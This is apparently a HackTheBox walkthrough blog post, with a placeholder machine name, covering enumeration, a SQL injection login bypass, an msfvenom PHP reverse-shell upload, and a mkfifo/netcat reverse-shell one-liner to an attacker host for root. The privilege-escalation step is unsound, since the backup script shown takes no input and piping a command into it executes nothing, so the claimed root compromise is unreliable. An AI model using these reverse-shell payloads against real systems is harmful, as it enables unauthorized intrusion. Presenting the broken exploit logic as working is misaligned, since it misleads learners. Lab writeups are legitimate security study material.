 ```yaml
---
title: "HackTheBox Writeup: Machine Name"
publishedAt: "2024-03-10"
summary: "A detailed walkthrough of solving the Machine Name box on HackTheBox, covering enumeration, exploitation, and privilege escalation."
tags: "security,hackthebox,pentest"
---
```


# HackTheBox Writeup: Machine Name

<Callout type="caution">
  This writeup contains spoilers for an active HTB machine. Please ensure you have already completed it or don't mind spoilers.
</Callout>

## Machine Overview

- **Difficulty**: Medium
- **OS**: Linux
- **Points**: 30
- **Release Date**: March 1, 2024

<ImageGrid
  images={[
    {
      src: "/blog/htb/machine-info.png",
      alt: "Machine Information Card"
    }
  ]}
/>

## Initial Enumeration

Let's start with a basic nmap scan: 
  
  ```bash
  nmap -sC -sV -oN nmap/initial $HTB_IP
  ```

The scan reveals two open ports: 22 (SSH) and 80 (HTTP). Let's check out the web server:

<ImageGrid
  images={[
    {
      src: "/blog/htb/web-server.png",
      alt: "Web Server Homepage"
    }
  ]}
/>

The homepage doesn't provide much information, so let's run a more thorough scan:

  ```bash
  gobuster dir -u http://$HTB_IP -w /usr/share/wordlists/dirb/common.txt -o gobuster/initial
  ```

The scan finds a `/admin` directory. Let's check it out:

<ImageGrid
  images={[
    {
      src: "/blog/htb/admin-page.png",
      alt: "Admin Page"
    }
  ]}
/>

The admin page contains a login form. Let's try some common credentials.

Username | Password
--- | ---
admin | admin
admin | password
admin | 123456

None of the common credentials work. Let's try to find more information.

## User Exploitation

The `/admin` page contains a login form. Let's try to bypass it using SQL injection:

```sql
' OR 1=1 --
```

The SQL injection bypasses the login and we get access to the admin panel. We find a file upload form that accepts image files. Let's try to upload a reverse shell:

```bash
msfvenom -p php/reverse_php LHOST=$ATTACKER_IP LPORT=4444 -f raw > shell.php
```

Upload the `shell.php` file and start a listener:

```bash
nc -lvnp 4444
```

Trigger the reverse shell by accessing the uploaded file:

```bash
http://$HTB_IP/uploads/shell.php
```

We get a reverse shell as the `www-data` user. Let's escalate to a more privileged user.

## Privilege Escalation

We find a `backup.sh` script in the `/var/www` directory. The script is running as root and contains a command injection vulnerability:

```bash
echo "Backup started"
tar -czf /var/backups/backup-$(date +%Y%m%d).tar.gz /var/www
echo "Backup finished"
```

Let's exploit the command injection vulnerability to get a root shell:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ATTACKER_IP 4444 >/tmp/f" | /var/www/backup.sh
```

We get a root shell and capture the root flag. The box is now fully compromised!

<ImageGrid
  images={[
    {
      src: "/blog/htb/root-flag.png",
      alt: "Root Flag"
    }
  ]}
/>
```